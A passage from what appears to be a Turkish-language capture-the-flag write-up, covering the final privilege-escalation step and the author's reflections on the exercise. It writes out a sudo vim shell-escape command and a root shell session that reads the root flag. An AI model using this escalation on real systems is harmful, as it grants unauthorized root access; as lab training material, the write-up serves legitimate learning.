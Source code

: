 Tanımlı ayrıcalık komutunu bulup çalıştırıyoruz ve root yetkilerine yükseliyoruz. Böylece kök flagini elde ederek CTF’in sonuna geliyoruz.

```bash
$ sudo vim -c ':!/bin/sh'
```

```bash
# ^[[2;2R
/bin/sh: 1: not found
/bin/sh: 1: 2R: not found
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# ls
user.txt
# d /root
/bin/sh: 5: d: not found
# cd /root
# ls
root.txt
# cat root.txt
W3ll xxxx. xxx xxxx xxx
# 
```

---

CTF’i başarıyla tamamladık ve hedeflediğimiz iki bayrağı da elde etmeyi başardık.

---

Bu CTF Bana Ne Öğretti?

Bu CTF süreci benim için sadece teknik bilgileri pekiştirmekle kalmadı, aynı zamanda problem çözme ve sabırlı olma konusunda da önemli dersler verdi. Fark ettim ki, siber güvenlikte hızlı olmak kadar dikkatli ve sistematik çalışmak da çok önemli.

Araçları (RustScan, Nmap, Dirsearch) etkin kullanmayı öğrenmek işimi gerçekten kolaylaştırdı ve bana pratik çözümler sunan kaynakları (GTFObins gibi) nasıl araştırıp değerlendirebileceğimi gösterdi.

Ayrıca, her adımı dikkatle analiz edip öğrendiklerimi uygulamak beni bir adım daha ileri taşıdı. Bu deneyim, siber güvenlik kariyerimde ilerlemek için bana motivasyon ve özgüven verdi.

CTF’ler sayesinde gerçek dünya siber saldırılarını anlamak ve bu saldırılara karşı nasıl önlem alınacağını öğrenmek benim için artık çok daha somut ve heyecan verici hale geldi.




